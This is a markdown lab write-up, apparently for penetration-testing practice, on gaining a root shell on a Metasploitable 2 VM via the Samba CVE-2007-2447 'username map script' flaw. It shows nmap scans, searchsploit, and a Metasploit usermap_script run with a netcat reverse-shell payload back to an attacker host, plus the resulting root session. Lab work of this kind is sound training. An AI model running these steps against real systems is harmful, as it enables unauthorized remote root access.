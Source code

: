 # 📦 SMB – CVE-2007-2447 Root Shell Exploit

> This section covers the discovery and exploitation of a Samba vulnerability on Metasploitable 2 using CVE-2007-2447 to gain root access.

---

## 🔍 Service Discovery

```bash
nmap -sV -sC -p 445 192.168.182.128
```

📌 Output:
- Service: Samba smbd 3.0.20-Debian

---

## 🧪 Step 1: SMB Nmap Scripts

```bash
nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* 192.168.182.128
```

📌 Highlights:
- Anonymous access allowed on `IPC$` and `/tmp`
- OS: Debian with Samba 3.0.20
- Detected vulnerable behavior

---

## 🔎 Step 2: Vulnerability Research

```bash
searchsploit Samba 3.0.20
```

📌 Found:
- `Samba 3.0.20 - 'username map script' Command Execution`
- CVE: CVE-2007-2447

---

## 💥 Step 3: Metasploit Exploit

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.182.128
set RPORT 139
set LHOST 192.168.182.129
set LPORT 4444
set PAYLOAD cmd/unix/reverse_netcat
run
```

📌 Result:
```bash
[*] Command shell session 1 opened (192.168.182.129:4444 → 192.168.182.128)
```

---

## 🧠 Step 4: Post-Exploitation

```bash
whoami
→ root
```

✅ Root-level shell obtained.

---

## 🔐 Summary

| Element       | Details                            |
|---------------|-------------------------------------|
| Service       | Samba smbd 3.0.20                   |
| Vulnerability | CVE-2007-2447                       |
| Exploit       | `exploit/multi/samba/usermap_script` |
| Shell Type    | Netcat reverse shell                |
| User          | root                                |


